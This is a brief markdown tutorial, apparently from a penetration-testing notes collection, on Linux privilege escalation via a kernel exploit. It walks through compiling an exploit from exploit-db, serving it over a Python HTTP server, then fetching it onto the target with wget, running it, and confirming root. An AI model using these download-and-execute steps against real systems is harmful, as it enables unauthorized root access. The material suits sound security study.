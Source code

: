 # Privileges Escalation - Linux
# Kernel exploitation example

- [First step - on our machine](#first-step---on-our-machine)
- [Second step - on the target](#second-step---on-the-target)

## First step - on our machine
- Download from https://exploit-db.com (for example) the proper exploit script.
- Add the missing dependencies if needed
- Compile it with `gcc <Script> -static -o <Exploit>`
  - `-static` will link all the needed libraries (but not always), to avoid GCC compatibility problems.
- Run a Python server with `sudo python3 -m http.server` (it will run an HTTP server on port 8000)

## Second step - on the target 
- `cd /tmp`
- Get the exploit from the Python server: `wget http://<IP>:8000/<Exploit>`.
- Give it execution permissions: `chmod +x <Exploit>`
- Run it with `./<Exploit>`.
- If everything's ok, now we should be root.
- Check it with `whoami`.